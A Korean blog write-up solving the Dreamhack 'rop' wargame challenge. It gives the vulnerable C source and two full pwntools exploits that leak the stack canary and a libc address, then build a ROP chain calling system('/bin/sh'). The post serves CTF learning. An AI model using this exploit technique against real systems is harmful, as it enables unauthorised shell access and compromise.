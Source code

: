 ```yaml
---
published: true
image: /img
layout: post
title: "[Dreamhack] PWN rop"
excerpt: "드림핵 포너블 rop 문제풀이"
tags: [Dreamhack, pwnable, wargame, writeup]
math: true
date: 2023-03-12 17:00
---
```


오랜만에 풀어보는 ROP 문제다. 다만 기존에 풀었던 64비트 ROP에 canary가 첨가되어 있다.
압축 파일을 풀어보면 libc와 코드, 바이너리, 도커 파일이 들어있다. 도커파일 이미지를 다운받아 확인해 보니 ubuntu bionic으로 18.04 버전을 사용하고 있다.

해당 문제 소스코드는 다음과 같다.

```c
// Name: rop.c
// Compile: gcc -o rop rop.c -fno-PIE -no-pie

#include <stdio.h>
#include <unistd.h>

int main() {
  char buf[0x30];

  setvbuf(stdin, 0, _IONBF, 0);
  setvbuf(stdout, 0, _IONBF, 0);

  // Leak canary
  puts("[1] Leak Canary");
  printf("Buf: ");
  read(0, buf, 0x100);
  printf("Buf: %s\n", buf);

  // Do ROP
  puts("[2] Input ROP payload");
  printf("Buf: ");
  read(0, buf, 0x100);

  return 0;
}
```

코드는 매우 간단하다. [1] 섹션에서 카나리 값을 릭 하고 [2]에서 ROP를 일으키면 될것 같다.

버퍼의 크기는 0x30인데 0x100 길이의 값을 read함수로 받기 때문에 0x31만큼의 값을 주면 \x00 이 없어 카나리 7바이트와 입력한 마지막 1자리 값이 출력 될 것이다.

이후 릭한 카나리를 이용해서 ROP 공격을 시도한다. put plt를 이용해 read got 주소를 출력해 libc 베이스 주소를 구한다. 이후 libc의 system 함수 오프셋을 더해 /bin/sh를 인자로 하여 system 함수를 실행시키는 것이 내가 구상한 시나리오이다.

간단하게 익스플로잇 코드를 구성해보자.

```python
from pwn import *
context.update(arch='amd64', os='linux')
#context.log_level = 'debug'

p = remote("host3.dreamhack.games", 19094);
#p = process("./rop", env={'LD_PRELOAD':'./libc-2.27.so'})
#p = process("./house_of_force")
elf = ELF("./rop")
libc = ELF("./libc-2.27.so")

pr = 0x4007f3
read_got = elf.got["read"]
puts_plt = elf.plt["puts"]
main_func = elf.symbols["main"]

print(f"read got : {hex(read_got)}")
print(f"puts plt : {hex(puts_plt)}")
print(f"main func : {hex(main_func)}")

p.sendafter(b"Buf: ", b"A"*0x39)
p.recvuntil(b"A"*0x39)
leak = b"\x00"+p.recvn(7)
canary = u64(leak)
print(f"leak canary : {hex(canary)}")

payload1 = b"A"*0x38
payload1 += p64(canary)
payload1 += p64(0x400790)
payload1 += p64(pr)
payload1 += p64(read_got)
payload1 += p64(puts_plt)
payload1 += p64(main_func)

p.sendlineafter(b"Input ROP payload\nBuf: ", payload1)

leak_read_got = u64(p.recvuntil(b"\n")[:-1]+b"\x00\x00")
libc_base = leak_read_got - libc.sym["read"]
system = libc_base + libc.sym["system"]
binsh = libc_base+list(libc.search(b"/bin/sh"))[0]

print(f"libc main : {hex(libc_base)}")
print(f"system : {hex(system)}")
print(f"binsh : {hex(binsh)}")

p.sendafter(b"Buf: ", b"A"*0x30)
```

위 코드를 이용해 우선 카나리와 libc 베이스 주소를 구하고 다시 main함수로 돌려버린다.
puts 함수는 인자를 1개 이용하기 때문에 pop rdi ; ret 가젯을 이용했다. 

이후 릭된 값을들 다시 구성해 system 함수를 콜하게 하면 된다. 여기서 [1] 부분은 기존 코드 그대로 이용했고 [2]에서 바로 system 함수를 콜하려 했지만 문제가 발생했다. 그래서 libc를 구할때 사용했던 코드는 정상 동작해서 puts 함수가 동작 한 후 main_func 부분을 다히 pr 가젯으로 주고 system 함수를 콜 했다.

최종적인 익스플로잇 코드는 다음과 같다.

```python
from pwn import *
context.update(arch='amd64', os='linux')
#context.log_level = 'debug'

p = remote("host3.dreamhack.games", 19094);
#p = process("./rop", env={'LD_PRELOAD':'./libc-2.27.so'})
#p = process("./house_of_force")
elf = ELF("./rop")
libc = ELF("./libc-2.27.so")

pr = 0x4007f3
read_got = elf.got["read"]
puts_plt = elf.plt["puts"]
main_func = elf.symbols["main"]

print(f"read got : {hex(read_got)}")
print(f"puts plt : {hex(puts_plt)}")
print(f"main func : {hex(main_func)}")

p.sendafter(b"Buf: ", b"A"*0x39)
p.recvuntil(b"A"*0x39)
leak = b"\x00"+p.recvn(7)
canary = u64(leak)
print(f"leak canary : {hex(canary)}")

payload1 = b"A"*0x38
payload1 += p64(canary)
payload1 += p64(0x400790)
payload1 += p64(pr)
payload1 += p64(read_got)
payload1 += p64(puts_plt)
payload1 += p64(main_func)

p.sendlineafter(b"Input ROP payload\nBuf: ", payload1)

leak_read_got = u64(p.recvuntil(b"\n")[:-1]+b"\x00\x00")
libc_base = leak_read_got - libc.sym["read"]
system = libc_base + libc.sym["system"]
binsh = libc_base+list(libc.search(b"/bin/sh"))[0]

print(f"libc main : {hex(libc_base)}")
print(f"system : {hex(system)}")
print(f"binsh : {hex(binsh)}")

p.sendafter(b"Buf: ", b"A"*0x30)

payload2 = b"A"*0x38
payload2 += p64(canary)
payload2 += p64(0x400790)
payload2 += p64(pr)
payload2 += p64(read_got)
payload2 += p64(puts_plt)
payload2 += p64(pr)
payload2 += p64(binsh)
payload2 += p64(system)

pause()

p.sendafter(b"Input ROP payload\nBuf: ", payload2)


p.interactive()
```

[2] 부분에서 libc를 릭하면서 바로 system 함수를 호출하는 방법을 쓰신 분들도 봤는데 필자는 함수 흐름을 돌리는 것이 편해서 이렇게 구성했다.

위 코드를 이용하면 flag를 얻을 수 있다.